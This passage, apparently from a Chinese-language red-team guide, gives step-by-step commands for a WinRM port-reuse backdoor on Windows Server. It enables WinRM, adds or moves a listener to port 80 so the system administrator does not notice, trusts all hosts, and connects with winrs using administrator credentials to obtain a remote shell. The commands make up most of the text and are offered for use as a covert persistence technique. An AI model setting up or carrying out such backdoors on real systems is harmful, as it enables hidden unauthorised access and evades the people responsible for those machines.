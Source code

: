 ```bash
netsh http show servicestate	#查看所有在HTTP.sys上注册过的url前缀
```

**1、 开启WinRM服务**

WinRm使用端口：`http 5985、https 5986`

`Server 2012`及之后，已经默认开启WinRM并监听了`5985`端口

`Server 2008`及之前的系统

```bash
winrm quickconfig -q			#开启WinRM并自动从防火墙放行`5985`端口
```

**2、 Server 2012配置，新增80端口Listerner**

对于原本就开放了WinRM的机器（Server 2012），需要保留该端口，以免影响系统管理员正常使用

同时还需要新增一个80端口的Listener供攻击者使用

```bash
winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}

winrm e winrm/config/Listener	#查看80端口的Listener是否出现
netsh http show servicestate	#查看是否新增了url前缀
```

**3、Server 2008配置，修改WinRM端口**

对于原本未开放WinRM服务的机器（Server 2008），需要把新开的**5985**端口修改至80端口，避免引起系统管理员怀疑

```bash
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
```

**4、后门连接**

&#x20;首先开启本机WinRM服务，然后设置信任连接的主机

```bash
winrm quickconfig -q 	# 开启服务
winrm set winrm/config/Client @{TrustedHosts="*"}  # 设置信任连接的主机
```

&#x20;执行使用winrs命令连接远程WinRM服务，获取交互shell

```bash
winrs -r:http://www.baidu.com -u:administrator -p:P@ssw0rd cmd
```

端口复用相关工具： [https://github.com/Heart-Sky/port-multiplexing](https://github.com/Heart-Sky/port-multiplexing)

#### 参考连接

&#x20;[端口复用后门 - 0x4D75 - 博客园](https://www.cnblogs.com/0x4D75/p/11381449.html#%E4%B8%80-%E7%AB%AF%E5%8F%A3%E5%A4%8D%E7%94%A8)

### 内网跨边界转发
